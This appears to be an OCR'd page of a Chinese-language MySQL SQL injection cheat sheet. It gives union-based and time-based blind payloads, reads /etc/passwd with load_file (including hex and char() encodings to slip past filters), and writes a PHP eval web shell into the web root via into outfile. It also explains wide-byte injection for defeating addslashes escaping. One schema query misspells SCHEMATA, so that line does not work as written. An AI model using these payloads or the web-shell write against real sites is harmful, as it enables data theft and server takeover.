**查询语句:**   
报字段长度：
-1' order by X  
字段位置：
-1' union select 1,2,3....  
查询数据库名称：
select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATE limit 0,1;  
information_schema这张数据表保存了MySQL服务器所有数据库的信息  
查询当前数据库表：
select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA=数据库名(16进制) limit 0,1;  
查询指定表的所有字段：
select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=表名(16进制) limit 0,1;  
UNION查询：
union查询把多个select语句结果集合到一个结果中。  
**函数利用:**  
load_file() 读文件操作: 必须是绝对路径，拥有file权限，文件小于最小max_allowed_packet字节  
union select load_file('/etc/passwd')或者  
load_file(0x2F6574632F706173737764)或者  
load_file(char(47 101 116 99 47 112 97 115 115 119 100 ))绕过  
into outfile() 写文件操作:    
select '<?php @eval($_POST[value]);?>' into outfile 'c:\wwwroot\1.php' 或者  
select char(16进制一句话木马) into outfile 'c:\wwwroot\1.php'  
连接字符串:  
concat()函数  
select concat(user(),',',database(),',',version())
concat_ws()函数  
union select concat_ws(0x2c,user(),database(),version())  
**mysql报错注入:**  
1.updatexml函数  
2.extractvalue函数  
3.floor函数  
4.name_const()函数    
参考http://www.waitalone.cn/mysql-error-based-injection.html

**mysql宽字节注入：**    
当编码不统一时，可能造成宽字节注入
注入攻击中常常会输入单引号[']双引号["]等特殊字符，当开启magic_quotes_gpc或者使用addslashes()会使用转义字符[\]来转义这些特殊字符。
当使用宽字节时，0xbf5c和0xbf27会被看成时一个字符。输入0xbf27时，经过转义变成0xbf5c27 即[縗']，产生了单引号，就会突破PHP的转义。  
**延时注入:**  
mysql中有函数sleep()，可以指定秒数来运行语句，
查询当前用户，并取得字符串长度
and if(length(user())=x,sleep(3),1)  
格式 IF(Condition,A,B) 意义：当Condition为TRUE时，返回A；当Condition为FALSE时，返回B。  
x为数字，不断递增，判断user长度
截取字符串字符，转换为ASCII码，并判断。  
and if(hex(mid(user(),1,1))=1,sleep(3),1)
逐个进行比较  
and if(hex(mid(user(),L,1))=N,sleep(3),1)
//MID() 函数用于从文本字段中提取字符。    MID(column_name,start[,length])
column_name	必需。要提取字符的字段。
start	必需。规定开始位置（起始值是 1）。
length	可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。  
同样可以使用substr函数判断  
and if(substr(user(),1,1)='r',sleep(3),1)  
and if(substr(user(),2,1)='o',sleep(3),1)  
and if(substr(user(),3,1)='o',sleep(3),1)  
and if(substr(user(),4,1)='t',sleep(3),1)  
...  
